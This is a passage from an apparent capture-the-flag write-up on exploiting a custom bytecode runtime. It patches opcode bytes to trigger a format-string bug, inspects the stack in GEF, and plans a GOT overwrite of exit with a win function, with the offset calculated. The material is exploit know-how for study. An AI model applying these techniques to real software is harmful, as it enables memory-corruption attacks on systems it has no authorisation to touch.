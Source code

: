 If we check the current value we see:

```
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 06 c0 25 70 00 20 09 ┊ c0 a2 c0 a0 03 00 00 60 │L•×%p0 _┊××××•00`│
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

We just need to replace the first zero byte with the opcode `ef` and the second value with `20`(hex value of decimal value 32):

```
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 06 c0 25 70 00 20 09 ┊ c0 a2 c0 a0 03 ef 20 60 │L•×%p0 _┊××××•× `│
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

When we run it locally with the binary we get this:

```bash
➜ ./runtime test.prg
(nil)(nil)
```

Our poc works. 
If we set a breakpoint at the printf call and check the stack we can see:

```
gef> tele $rsp 0x10 -n
0x7fff923f2db0|+0x0000|000: 0x00000020c0032de0  <-  $rsp
0x7fff923f2db8|+0x0008|001: 0xd7e2789b1f42fb00  <-  canary
0x7fff923f2dc0|+0x0010|002: 0x00007fff923f2df0  ->  0x00007fff923f2e10  ->  0x00007fff923f3e70  ->  0x0000000000000002  <-  $rbp
0x7fff923f2dc8|+0x0018|003: 0x0000000000405c9b  ->  0x6600005c7e05b70f  <-  retaddr[1]
0x7fff923f2dd0|+0x0020|004: 0x00007fff923f3f88  ->  0x00007fff923f6149  ->  './runtime'
0x7fff923f2dd8|+0x0028|005: 0xefe2789b1f42fb00
0x7fff923f2de0|+0x0030|006: 0x0000000000405a6a  ->  0x10ec8348e5894855
0x7fff923f2de8|+0x0038|007: 0xd7e2789b1f42fb00  <-  canary
0x7fff923f2df0|+0x0040|008: 0x00007fff923f2e10  ->  0x00007fff923f3e70  ->  0x0000000000000002
0x7fff923f2df8|+0x0048|009: 0x0000000000405ceb  ->  0x9090f0eb0274c085  <-  retaddr[2]
0x7fff923f2e00|+0x0050|010: 0x0000000000bae480  ->  0x0920007025c0064c
0x7fff923f2e08|+0x0058|011: 0xd7e2789b1f42fb00  <-  canary
0x7fff923f2e10|+0x0060|012: 0x00007fff923f3e70  ->  0x0000000000000002
0x7fff923f2e18|+0x0068|013: 0x00000000004015a3  ->  0x45ebe800000000b8  <-  retaddr[3]
0x7fff923f2e20|+0x0070|014: 0x00007fff923f3f88  ->  0x00007fff923f6149  ->  './runtime'
0x7fff923f2e28|+0x0078|015: 0x0000000200000200
```

At position `012` on the stack we can see that it points to another stack location: `0x00007fff923f3e70`. 
We know that GOT is writable. So our goal is to write the exit got address there and then at that offset we overwrite it with the win function.
We can calculate the offset of the stack address. The position we write the exit address is 18th position. The second address is at position 542:

```
gef> p/d (0x00007fff923f3e70 - 0x7fff923f2e10) / 8 + 18
$1 = 542
```

